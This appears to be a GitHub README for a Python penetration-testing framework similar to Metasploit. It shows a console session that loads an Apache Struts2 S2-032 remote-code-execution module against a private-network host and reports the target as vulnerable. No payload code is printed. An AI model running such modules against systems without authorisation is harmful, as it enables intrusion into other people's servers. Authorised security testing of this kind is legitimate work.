

## Open-Security-Framework

**Open-Security-Framework** is a pythonic framework which is similar to [metasploit-framework](https://github.com/rapid7/metasploit-framework). If you are interested in python pragramming, please join us to create a good open-source project.



## Apache Struts2 s2_032 Remote Code Execution

```
open-security-framework [development] python osfconsole.py
Open-Security-Framework > show modules

    exploits/multi/http/apache_struts_dmi_rce

Open-Security-Framework > use exploits/multi/http/apache_struts_dmi_rce
Open-Security-Framework (exploits/multi/http/apache_struts_dmi_rce) > show options

    Option     Current Setting                           Description
    ---------  ----------------------------------------  --------------------------
    TARGETURI  /struts2-blank/example/HelloWorld.action  target uri to request
    THREADS    1                                         Set default threads number
    VERBOSE    False                                     Verbose mode
    RPORT      8080                                      the target port
    RHOST      172.16.176.226                            the target host

Open-Security-Framework (exploits/multi/http/apache_struts_dmi_rce) > run
[+] http://172.16.176.226:8080/struts2-blank/example/HelloWorld.action - Checking struts2 s2_032 rce...
Starting new HTTP connection (1): 172.16.176.226
[+] Target is vulanable
```

**Open-Security License**
